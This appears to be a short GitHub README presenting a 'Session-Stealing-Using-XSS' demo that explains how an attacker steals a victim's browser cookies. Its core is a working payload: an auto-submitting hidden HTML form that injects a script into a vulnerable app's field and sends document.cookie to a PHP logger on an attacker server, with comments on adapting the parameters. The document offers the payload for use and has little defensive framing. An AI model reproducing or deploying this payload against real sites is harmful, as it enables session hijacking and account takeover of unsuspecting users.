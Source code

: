 ## Session-Stealing-Using-XSS ##

# This is a demo application to steal cookie stored at the client side i.e. in the browser #

*The Process* 
1. First consider there is an vulnerable application hosted at Server A
2. The attacker will send his payload to the victim which is hosted at Server B(Attacker's Server)
3. The Victim will click on the payload and while his session with the legitimate application is going on which is hosted at Serve A, his cookies will be fetched and passed to the attacker's server i.e. server B.

the payload is passed within the form value:


<body onload="document.myForm.submit()">

<form method="GET" action="http://vulnerableapp.com" name="myForm">

<input type=hidden name="firstname"  value="<script>document.location='http://attackerserver.com/cookiesteal.php?c='+document.cookie;</script>"/>
<input type=hidden name="lastname"  value="hello hacker"/>
<input type=hidden name="form"  value="submit"/>

<!-- this is a autosubmit form with two parameters. you can modify the parameters according to the need.
In the form action parameter, address of the XSS vunerable application is passed.

In the payload i.e. the first input parameter attacker server's location is passed where the stealed cookie will be passed to a php
file and further write in a txt file-->
</form>
